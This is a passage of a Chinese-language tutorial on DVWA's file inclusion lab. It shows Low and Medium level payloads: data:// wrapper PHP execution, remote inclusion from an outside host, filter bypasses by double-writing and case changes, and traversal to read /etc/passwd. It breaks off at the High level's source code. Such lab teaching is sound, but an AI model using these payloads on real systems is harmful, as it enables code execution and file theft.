 然后访问：

```
http://ip/vulnerabilities/fi/info.php
```

- data:// 伪协议

数据封装器，和 php:// 相似，可以直接执行任意 PHP 代码：

```php
/fi/?page=data:text/plain,<?php phpinfo();?>
/fi/?page=data:text/plain;base64, PD9waHAgcGhwaW5mbygpOz8%2b
```

###  Medium

```
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

过滤了 `http://` 和 `https://` 以及 `../` 和 `..`

1.远程文件包含

因为是替换为空，所以可以双写绕过

```php
/fi/?page=hhttps://ttps://www.sqlsec.com/info.txt
```

大小写绕过

```
/fi/?page=HTTPS://www.sqlsec.com/info.txt
```

2.本地文件包含

目录穿越，双写

```
/fi/?page=..././..././..././..././..././etc/passwd
```

绝对路径

```
/fi/?page=/etc/passwd
```

### High

```php
$file = $_GET[ 'page' ];

if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!";
    exit;
}
```
